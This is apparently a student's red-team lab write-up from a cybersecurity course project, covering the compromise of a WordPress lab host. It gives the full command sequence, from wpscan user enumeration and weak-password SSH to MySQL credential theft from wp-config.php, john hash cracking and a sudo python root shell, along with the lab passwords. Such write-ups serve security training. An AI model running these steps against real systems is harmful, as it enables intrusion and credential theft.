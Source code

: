 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap 192.168.1.0/24
```
![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/nmap%20cider%20scan.png)

<br>

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/tcp open ssh (service) OpenSSH 6.7p1 Debian 5+deb8u4
  - Port 80/tcp open http (service) Apache httpd 2.4.10 ((Debian))
  - Port 111/tcp open rpcbind (service) 2-4 (RPC #100000)
  - Port 139/tcp open netbios-ssn (services) Samba smbd 3.X - 4.X
  - Port 445/tcp open netbios-ssn (services) Samba smbd 3.X - 4.X


The following vulnerabilities were identified on Target 1:
- Target 1
  - CVE-2021-28041 open SSH (Severity: High)
  - CVE-2017-15710 Apache httpd 2.4.10 (Severity: High)
  - CVE-2017-8779 exploit on open rpcbind port could lead to remote DoS (Severity: High)
  - CVE-2017-7494 Samba NetBIOS (Severity: Critical)


![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/nmap%20-sV%20192.168.1.110.png)

<br>

### Critical Vulnerabilities:
The following vulnerabilities were identified on Target 1:
 
 - Network Mapping
   - nmap scanned for open ports on a designated IP address
   - Attacker can devise an attack based on open ports
 
 - Unsalted Password Hash
   - wpscan is used to gain username information 
   - Attackers gain access the web server

- Weak User Password
  - A user account had a weak password, which was found via guessing
  - Attacker is able to ssh into web server with weak username and password

- Access MySQL Database
  - Attackers discover a file containing MySQL database credentials
  - Attacker can gain access to MySQL database with acquired credentials 

- MySQL Password Extraction
  - Password hashes for user accounts were found by browsing through MySQL tables
  - Attacker can extract password hashes and crack them via john the ripper

- Misconfigured User Privilege Escalation
  - Steven’s account has sudo privileges for python
  - Steven’s Python privileges used to escalate to root   
 
### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

- Enumerated WordPress site Users with WPScan to obtain username michael, used SSH to get user shell
  - Command used: wpscan --url http://192.168.1.110/wordpress -eu

![Screenshot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/wpscan%20-eu.png)
![Screenshot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/wpscan%20-eu%202.png)

<br>

- Visited the IP address of the target: 192.168.1.110 over HTTP port 80

![Screenshot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/192.168.1.110%20browswer.png)

<br>

- Target 1
  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d
   - **Exploit Used**
   
    - ssh into Michael's account and look through files in /var/www
    - Command: ssh michael@192.168.1.110
    - The username and password for Michael's account is identical: michael
    - Command: cd ../../var/www
    - Command: ls 
    - Command: grep -RE flag html
     
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/var:www%20and%20ls.png)
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/grep%20command%20flag%201.png)
  ![ScreenShot](flag1)

<br>


  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
   - **Exploit Used**
     - Command: ssh michael@192.168.1.110 
     - The username and password for Michael's account is identical: michael
     - Command: locate *flag*
     - Command: cat /var/www/flag2.txt
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/locate%20*flag*.png)
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/flag2.txt.png) 

<br>


  - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2
   - **Exploit Used**
     - Continued using michael shell to find the MySQL database password, logged into MySQL database, and found Flag 3 in wp_posts table.
     - Command: ls /var/www/html/wordpress/
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/ls%20wordpress:.png)
  
<br>

   - Command: cat /var/www/html/wordpress/wp-config.php
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/DB%20Username%20%26%20Password.png)

<br>

   - Used the credentials to log into MySQL and dump WordPress user password hashes.
    
     - DB_NAME: wordpress
     - DB_USER: root
     - DB_PASSWORD: R@v3nSecurity
     - Command: mysql -u root -p
 
 
 ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/mysql%20-u%20root%20-p%20command.png)

<br>

   - Search MySQL database for Flag 3 and Wordpress user password hashes:

     - Flag 3 found in wp_posts.
     - Password hashes found in wp_users.
     - Command: show databases;
     - Command: use wordpress;
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/show%20db%20and%20Use%20wordpress.png)
  
<br>

   - Command: show tables;
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/show%20tables%3B.png)
  
<br>

   - Command: SELECT * FROM wp_posts;	
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/SELECT%20*%20FROM%20wp_posts%201.png)
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/SELECT%20*%20FROM%20wp_posts%202.png)

<br>

   - Screenshot of Wordpress user password hashes:
    
     - Command: SELECT * FROM wp_users;
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/SELECT%20*%20FROM%20wp_users.png)

<br>

  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce
   - **Exploit Used**
     - Used john to crack the password hash obtained from MySQL database, secured a new user shell as Steven, escalated to root.
     - Cracking the hashed password using john.
     - Copied password hash from MySQL into ~/root/wp_hashes.txt and cracked with john to discover Steven’s password: pink84.
     - Command: john --show wp_hashes.txt


![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/john%20command.png)

<br>

   - Secure a user shell as the user whose password you cracked.
    
     - Command: ssh steven@192.168.1.110
     - Password: pink84
     - Escalating to root:
     - Command: sudo -l  
 
 
 ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/sudo%20-l.png)

<br>
   
   - Command: sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/sudo%20python%20-c%20'import%20pty%3Bpty.spawn(%22:bin:bash%22)'.png)

<br>

   - Search for the root directory for Flag 4.
   
     - Command: cd /root/
     - Command: ls
     - Command: cat flag4.txt


![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/cat%20flag4.txt%201.png)
![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/cat%20flag4.txt%202.png)

